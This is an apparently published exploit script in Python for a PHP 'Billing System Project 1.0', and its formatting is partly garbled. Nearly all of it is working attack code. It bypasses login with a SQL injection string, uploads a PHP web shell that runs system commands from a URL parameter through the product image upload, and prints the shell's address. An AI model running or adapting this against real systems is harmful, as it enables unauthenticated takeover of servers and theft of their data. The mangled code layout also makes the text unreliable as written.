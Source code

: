     # Exploit Title: Billing System Project 1.0 - Remote Code Execution (RCE) (Unauthenticated)
    # Date: 06.07.2021
    # Exploit Author: Talha DEMİRSOY
    # Software Link: https://www.sourcecodester.com/php/14831/billing-system-project-php-source-code-free-download.html
    # Version: V 1.0
    # Tested on: Linux & Windows

    import requests
    import random
    import string
    from bs4 import BeautifulSoup

    let = string.ascii_lowercase
    shellname = ''.join(random.choice(let) for i in range(15))
    randstr = ''.join(random.choice(let) for i in range(15))

    payload= "<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd =
    ($_GET['cmd']); system($cmd); echo '

'; die; } ?\>"

url = input("Target : ")

session = requests.session()

reqUrl = url + "login.php" reqHead = {"Content-Type": "application/x-www-form-urlencoded"} reqData = {"username": "admin' or '1'='1'\#", "password": "-", "login": ''} session.post(reqUrl, headers=reqHead, data=reqData)

print("Shell Uploading...")

reqUrl = url + "php_action/createProduct.php" reqHead = {"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryOGdnGszwuETwo6WB"} reqData = "\\r\\n\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"currnt_date\\"\\r\\n\\r\\n\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"productImage\\"; filename=\\""+shellname+".php\\"\\r\\nContent-Type: application/octet-stream\\r\\n\\r\\n"+payload+"\\r\\n\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"productName\\"\\r\\n\\r\\n"+randstr+"_TalhaDemirsoy\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"quantity\\"\\r\\n\\r\\n1\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"rate\\"\\r\\n\\r\\n1\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"brandName\\"\\r\\n\\r\\n1\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"categoryName\\"\\r\\n\\r\\n2\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"productStatus\\"\\r\\n\\r\\n1\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB\\r\\nContent-Disposition: form-data; name=\\"create\\"\\r\\n\\r\\n\\r\\n------WebKitFormBoundaryOGdnGszwuETwo6WB--\\r\\n" session.post(reqUrl, headers=reqHead, data=reqData)

print("product name is "+randstr) print("shell name is "+shellname)

reqUrl = url + "product.php" data = session.get(reqUrl)

parser = BeautifulSoup(data.text, 'html.parser') find_shell = parser.find_all('img')

for i in find_shell:

`   if shellname in i.get("src"):`
`       print("Shell URL : " + url  + i.get("src") + "?cmd=whoami")           `

</pre>
